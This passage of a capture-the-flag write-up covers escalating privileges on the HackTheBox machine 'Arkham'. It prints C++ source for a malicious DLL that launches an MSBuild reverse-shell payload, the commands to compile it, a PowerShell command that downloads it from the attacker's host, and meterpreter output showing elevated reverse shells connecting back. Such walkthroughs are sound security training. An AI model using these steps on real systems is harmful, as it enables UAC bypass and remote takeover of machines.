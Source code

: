 
### Creating a malicious DLL

I used this article <https://www.gracefulsecurity.com/privesc-dll-hijacking/> for creating and compiling a tiny dll payload in C++ that would execute the same meterpreter payload with elevated privileges using the WinExec() function from the Windows API. I even left in the cringey 'fireLazor()' function name.

```
root@kali:~/Desktop/hackthebox/Arkham-10.10.10.130/dll# cat main.cpp 
#include <windows.h>
int fireLazor()
{
 WinExec("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\MSBuild.exe C:\\Users\\Batman\\Documents\\revshell.xml", 0);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```

I used mingw to compile it from Kali
- ``i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp``
- ``i686-w64-mingw32-g++ -shared -o srrstr.dll main.o -Wl,--out-implib,main.a``

Now I can copy the DLL to the WindowsApps directory using the methods previoulsy shown.
1. Start HTTP server from Kali ``python -m SimpleHTTPServer 80``
2. From our meterpreter session, drop into a cmd shell with the `shell` command
2. Use Powershell to download the dll into WindowsApps `Powershell Invoke-WebRequest -URI http://10.10.14.15/dll/srrstr.dll -OutFile C:\Users\Batman\AppData\Local\Microsoft\WindowsApps\srrstr.dll`

---
### Bringing It All Together

By now, I should have my meterpreter shell on the victim box running in an interactive process and my DLL payload in place. All that's left to do is run the vulnerable executable `C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe`. This executable should auto-elevate without requiring the user to accept a UAC prompt, then find and execute our DLL payload at `C:\Users\Batman\AppData\Local\Microsoft\WindowsApps\srrstr.dll` which then runs another instance of our meterpreter payload via `msbuild.exe` in a high-integrity level. If all goes well, my `multi/handler` should still be listening in the background for additional reverse shell connections so I should see the additional session open in the same window. 

```
C:\Windows\system32>c:\windows\syswow64\systempropertiesadvanced.exe
c:\windows\syswow64\systempropertiesadvanced.exe

C:\Windows\system32>
[*] Sending stage (180291 bytes) to 10.10.10.130
[*] Meterpreter session 2 opened (10.10.14.9:443 -> 10.10.10.130:49703) at 2019-09-22 04:16:59 -0400
[*] Sending stage (180291 bytes) to 10.10.10.130
[*] Meterpreter session 3 opened (10.10.14.9:443 -> 10.10.10.130:49702) at 2019-09-22 04:17:03 -0400
^Z
Background channel 1? [y/N]  y
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
```

[arkham]: PS C:\Users\Batman\Documents> whoami